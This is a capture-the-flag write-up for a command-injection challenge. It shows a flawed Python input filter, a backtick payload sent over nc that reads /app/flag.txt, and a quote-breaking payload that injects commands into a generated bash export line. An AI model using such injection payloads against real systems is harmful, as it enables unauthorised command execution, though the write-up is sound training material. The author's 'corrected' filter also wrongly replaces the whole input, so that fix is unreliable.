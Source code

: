 ```yaml
---
ai_date: '2025-04-27 05:17:57'
ai_summary: 'Input sanitization missing in bash script generation, allowing command
  injection (exploit: `;cat /app/flag.txt;echo`)'
ai_tags:
- bash
- cmd-inj
- payload-injection
created: 2024-07-21T03:54
points: 474
solves: 18
updated: 2024-07-21T18:42
---
```


So we have a python file that opens a testing suite...

```python
from subprocess import Popen

name = input('Enter name: ')

for c in '`$(){}':
    name.replace(name, '')

Popen([
    'bazel',
    'run',
    ':run',
    f'--action_env=NAME={name}'
], shell=False).communicate()
```

Wait a minute, nothing is actually being replaced here.

For it to be effective at removing characters it has to be like this.

```python
for c in '`$(){}':
    name = name.replace(name, '')
```

I guess the authors messed up?

```shell
$ nc zable.chal.imaginaryctf.org 1337
Enter name: `cat /app/flag.txt`
Hello, ictf{I_supp0se_if_a_hacker_can_run_bazel_on_your_system_things_are_already_bad}!
```

```flag
ictf{I_supp0se_if_a_hacker_can_run_bazel_on_your_system_things_are_already_bad}
```

---

After the CTF has ended I found out that the intended solution was exploiting bash file generation.

The task generates a bash script like this.

```shell
EXPORT NAME="<NAME>"
```

We can inject code to make it look like this.

```shell
EXPORT NAME="";cat /app/flag.txt;echo ""
```

The payload is hence `";cat /app/flag.txt;echo "`